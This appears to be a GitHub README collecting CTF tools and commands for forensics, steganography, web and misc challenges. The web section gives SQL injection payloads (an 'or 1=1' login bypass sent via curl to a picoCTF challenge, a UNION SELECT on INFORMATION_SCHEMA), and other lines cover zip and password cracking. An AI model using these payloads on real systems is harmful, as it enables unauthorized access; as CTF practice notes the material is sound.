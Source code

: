 # CTF tools & Resources
This Repo Contains Write-UPs for all Tasks 
HERE ARE SOME EXTREMELY USEFUL TOOLS AND COMMANDS
## [Forensics, Linux Tools and Commands](#linux)
## [Web](#web)
## [Misc](#misc)

- <a name = "linux">Basic linux tools and Commands</a>
1)binwalk -e <filenam> : //Extracts hidden files
2)steghide extract -sf <filename> : //Extracts hidden text in the image
3)xxd <file name> : //Prints the Hex version of file
4)grep "element" //finds the element
5)strings <filename> // gives the strings hidden in the file
6)hexedit <filename> //hexeditor
7)java -jar stegsolve.jar 
8)pngcheck <filename> //checks if the png file is broken
9)tar -xvf <filename> // untars the tar files
10)cat temp.txt | cut -d'(' -f2 | sort -n | cut -d"'" -f2 | tr -d "\n" ; echo      
 // used this command to obtain the flag from the java file having flag characters written in an scrambled order 
11)fcrackzip -u -l 10-11 -c a1 -p IEC2019000 findME.zip     
// this command helps us to find the password to a zip. -u : unzip -l: range of length -c: type of elements a1 means alphabets and numbers -p:sample password 
12)ltrace ./file     is a helphul command to see the functioning of a program
also use strace
13)cat /proc/(process id)/             
we can see all files running in the process with given process id.
14)exiftool for meta data
15)use tcpflow -r file  for pcap
16) zsteg :- another great stego tool
17) john the ripper :- tool for password cracking

- <a name = "web">Web</a>
* curl "https://2019shell1.picoctf.com/problem/4162/login.php" --data "username=admin&password='+or+1=1--" && echo 
this command will find the password to username admin stored in database.
* Robots -->>> url/robots.txt (shows hidden info)
* Basic Injection  if there is a hidden info in the data base then to leak the data type 'OR''=' in the info bar.
* 1 union select 1,TABLE_NAME, 3,4 from INFORMATION_SCHEMA.TABLES     input this code in the info bar of a website for sql attack using injection.
*  Postman great tool for web challs

- <a name = "misc">Misc</a>
* Esoteric languages(pikalang, 2dfuck, brainfuck) use tio.run website, Malboge an esoteric language that looks like base 85.
*  git show -1 filename.txt > to compare against the last revision of file
   git show -2 filename.txt > to compare against the 2nd last revision of file
* Use this site for substitution https://quipqiup.com/
* Detect the DMFT Tools http://dialabc.com/sound/detect/index.html
* Online Stegnographic Decoder :- https://futureboy.us/stegano/decinput.html

